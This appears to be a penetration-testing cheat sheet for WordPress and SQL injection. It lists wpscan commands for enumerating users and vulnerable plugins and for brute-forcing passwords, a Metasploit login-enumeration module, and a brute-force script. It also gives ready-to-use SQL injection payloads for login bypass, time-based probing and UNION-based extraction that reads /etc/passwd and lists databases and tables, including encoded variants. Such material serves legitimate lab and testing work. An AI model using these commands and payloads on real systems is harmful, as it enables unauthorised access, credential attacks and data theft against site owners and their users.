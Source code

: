 **Wpscan**

```bash
# Enumerate users & vulnerable plugins
wpscan --url http://10.10.10.10 -e u,vp

# Bruteforce passwords
wpscan --url 10.10.10 --passwords rockyou.txt --usernames elliot
```

**Metasploit**

```bash
use auxiliary/scanner/http/wordpress_login_enum
```

**Username Enumeration via Bruteforce**

*   Script: [wp\_login\_user\_enumeration.py](https://github.com/SecurityCompass/wordpress-scripts/blob/master/wp_login_user_enumeration.py)

    ```bash
    python wp_brute.py -t http://10.10.10.10 -u usernames.txt
    ```

#### SQL Injection

**Payloads**

```sql
)'
"
')
")
`')
'))
"))
`))
'-SLEEP(30); #
```

**Login Bypass**

```sql
-- Both user and password, or specific username and payload as password
' or 1=1 --
' or '1'='1
' or 1=1 --+
user' or 1=1;#
user' or 1=1 LIMIT 1;#
user' or 1=1 LIMIT 0,1;#
```

**UNION BASED SQL**

```sql
' order by 1 --
' UNION SELECT 1,2,3 --
' UNION SELECT 1,@@version,3 --
' UNION SELECT 1,user(),3 --
' UNION SELECT 1,load_file('/etc/passwd'),3 --
' UNION SELECT 1,load_file(0x2f6574632f706173737764),3 -- //hex encode
' UNION SELECT 1,load_file(char(47,101,116,99,47,112,97,115,115,119,100)),3 -- // char encode

-- List databases available
' UNION SELECT 1,2,3,4,5,group_concat(table_schema) from information_schema.schemata --

-- Fetch Table names
' UNION SELECT 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --
' union all select 1,2,3,4,table_name,6 FROM information_schema.tables --
```